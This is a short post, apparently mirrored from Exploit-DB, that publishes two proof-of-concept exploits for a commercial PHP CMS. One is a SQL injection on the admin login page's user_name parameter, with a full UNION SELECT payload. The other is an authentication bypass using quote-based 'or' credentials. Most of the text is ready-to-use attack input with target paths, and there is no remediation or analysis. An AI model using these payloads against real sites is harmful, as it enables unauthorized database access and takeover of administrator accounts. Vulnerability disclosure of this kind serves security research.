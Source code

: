 ```yaml
---
layout:     post
title:      "The Company Business Website CMS - Multiple Vulnerabilities"
date:       2019-03-21 12:01
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```

# Exploit Title: The Company Business Website CMS - 'user_name' SQL
Injection
# Date: 20.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.codester.com/items/6806/the-company-business-website-cms
# Demo Site: http://thecompany.morkocbilisim.com
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/admin/production/login.php
Vulnerable Parameter: user_name (POST)
Payload: user_name=VNfn' UNION ALL SELECT
NULL,NULL,NULL,CONCAT(CONCAT('qqkxq','mOiFXJaJzzATyiPlJyQgwuuTiDddtckLMPRRRdEH'),'qjbbq'),NULL,NULL,NULL,NULL--
WMfV&user_password=&loggin=Psop


# Exploit Title: The Company Business Website CMS - Authentication Bypass
# Date: 20.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.codester.com/items/6806/the-company-business-website-cms
# Demo Site: http://thecompany.morkocbilisim.com
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
----- PoC: Authentication Bypass -----
Administration Panel: http://localhost/[PATH]/admin/production/login.php
Username: '=' 'or'
Password: '=' 'or'
